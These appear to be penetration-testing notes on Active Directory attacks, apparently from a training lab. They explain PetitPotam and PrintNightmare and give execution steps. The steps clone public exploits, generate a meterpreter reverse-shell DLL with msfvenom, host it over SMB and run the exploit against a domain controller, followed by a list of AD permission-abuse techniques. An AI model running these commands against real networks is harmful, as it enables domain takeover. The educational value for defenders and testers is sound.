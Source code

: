 # active directory attacks enumeration
























## PetitPotam (MS-EFSRPC)

PetitPotam is a critical vulnerability (CVE-2021-36942) that was discovered in Microsoft Windows' MS-EFSRPC (Microsoft Encrypting File System Remote Protocol), which is used for communication between Windows machines in an Active Directory environment. This vulnerability allows an attacker to escalate privileges or perform NTLM relay attacks by forcing a vulnerable Windows machine to authenticate to an attacker-controlled server, potentially allowing the attacker to gain administrative privileges.If MS-EFSRPC is exposed to the network and is vulnerable, it may be a vector for the attack.

### Overview of PetitPotam (CVE-2021-36942)
- **Vulnerability Type:** NTLM Relay / Authentication Bypass.
- **Impact:** The vulnerability allows attackers to escalate privileges and potentially take over a Windows domain controller, leading to full domain compromise.
- **Discovery Date:** July 2021.
- **Affected Components:**
  - MS-EFSRPC (Microsoft Encrypting File System Remote Protocol)
  - Active Directory Domain Services (AD DS)
  - Other services relying on NTLM authentication.

### How PetitPotam Works:
The vulnerability exists in the way Windows handles NTLM authentication during communication between systems in an Active Directory domain. Specifically, an attacker can use **MS-EFSRPC** to force a machine to authenticate with an attacker-controlled server. By leveraging the NTLM relay attack, an attacker can capture the authentication request and relay it to other machines or services, such as a **domain controller**.

Here's a general breakdown of the attack flow:
1. **MS-EFSRPC Vulnerability:** The attacker sends a specially crafted request to a vulnerable Windows system, triggering the system to use NTLM authentication for communication.
2. **NTLM Relay Attack:** The attacker intercepts the NTLM authentication request and relays it to a target machine (e.g., a domain controller or another Windows machine) that will accept the authentication.
3. **Privilege Escalation:** If successful, the attacker can gain administrative privileges on the target machine, which may include full control of the domain or other services.

### Affected Versions:
PetitPotam affects the following Windows versions and configurations:
- **Windows Server** (including versions used in Active Directory environments).
- **Windows 10** and other systems that may communicate with Windows Server.
- Specifically, any system where MS-EFSRPC is exposed and NTLM authentication is used.

### Attack Scenarios:
1. **Domain Controller Compromise:**
   - An attacker can relay authentication requests to a domain controller and potentially compromise the entire domain.
2. **Privilege Escalation in AD Environments:**
   - By targeting machines that are part of an Active Directory domain, attackers could escalate their privileges from a low-privileged user to an administrator or domain admin.

### Execution

Get the petitpotam git repo:

    git clone https://github.com/topotam/PetitPotam.git

Check for the vulnerability, by testing if MS-EFSRPC is accessible:

    rpcclient -U "" -N <domain_controller_ip> -c "srvinfo"

    or impacket's

    rpcdump <domain_controller_ip>

    or just run the petitpotam python script bellow


Execute the PetitPotam exploit by specifying the IP address of the attack host (172.16.5.255) and the target Domain Controller (172.16.5.5). 

    python3 PetitPotam.py 172.16.5.225 172.16.5.5

## PrintNightmare

PrintNightmare is a critical security vulnerability (CVE-2021-34527) discovered in the Windows Print Spooler service, which is responsible for managing print jobs on a Windows system. The vulnerability allows attackers to remotely execute code with system-level privileges, potentially leading to full system compromise.

### Overview of PrintNightmare (CVE-2021-34527)
- **Affected Component:** Windows Print Spooler service.
- **Vulnerability Type:** Remote Code Execution (RCE).
- **Impact:** Allows remote attackers to execute arbitrary code on affected systems with SYSTEM privileges, potentially taking full control of the system.
- **Discovery Date:** June 2021.
- **Affected Versions:** Various versions of Windows, including Windows 7, 8, 10, and Windows Server editions.

### How PrintNightmare Works
The vulnerability stems from improper handling of print spooler requests, allowing an attacker to inject malicious code into the spooler service. An attacker could exploit this vulnerability to gain elevated privileges and execute arbitrary code on the affected system.

1. **Remote Code Execution:** An attacker can remotely trigger the vulnerability by sending a specially crafted print job or by remotely interacting with the vulnerable Print Spooler service, typically through SMB (Server Message Block) or RPC (Remote Procedure Call).
  
2. **Privilege Escalation:** Once an attacker can execute code in the context of the Print Spooler service, they can achieve SYSTEM-level privileges, allowing them to perform actions such as installing malware, altering system configurations, and compromising sensitive data.

3. **Exploitation Vector:** Since the vulnerability is present in the Print Spooler service, an attacker doesn't need physical access to a system to exploit it, making it a high-risk vulnerability for remote exploitation.


### Exploitation Scenarios
- **Remote Attacks:** Attackers can exploit the vulnerability remotely via network protocols like SMB or RPC to compromise machines that have the Print Spooler service running.
- **Local Attacks:** If an attacker has local access to a machine, they could leverage this vulnerability to escalate privileges to SYSTEM and take control of the system.

### Execution
Install PrintNightmare from cube0x0 exploit using git from a Linux-based host

    git clone https://github.com/cube0x0/CVE-2021-1675.git

    also try

    https://github.com/dievus/printspoofer

Check if a Windows target has MS-PAR & MSRPRN exposed

    rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'

Generate a DLL payload to be used by the exploit to gain a shell session.

    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.129.202.111 LPORT=8080 -f dll > backupscript.dll

Create an SMB server and host a shared folder (CompData) at the specified location on the local linux host. This can be used to host the DLL payload that the exploit will attempt to download to the host.


    sudo smbserver.py -smb2support CompData /path/to/backupscript.dll

Executes the exploit and specifies the location of the DLL payload

    sudo python3 CVE-2021-1675.py inlanefreight.local/<username>:<password>@172.16.5.5 '\\10.129.202.111\CompData\backupscript.dll'






Active Directory Certificate Services (AD CS) attacks
Kerberos Constrained Delegation
Kerberos Unconstrained Delegation
Kerberos Resource-Based Constrained Delegation (RBCD)
Kerberos: Silver Tickets


WriteOwner abused with Set-DomainObjectOwner
WriteDACL abused with Add-DomainObjectACL
AllExtendedRights abused with Set-DomainUserPassword or Add-DomainGroupMember
Add Members abused with Add-DomainGroupMember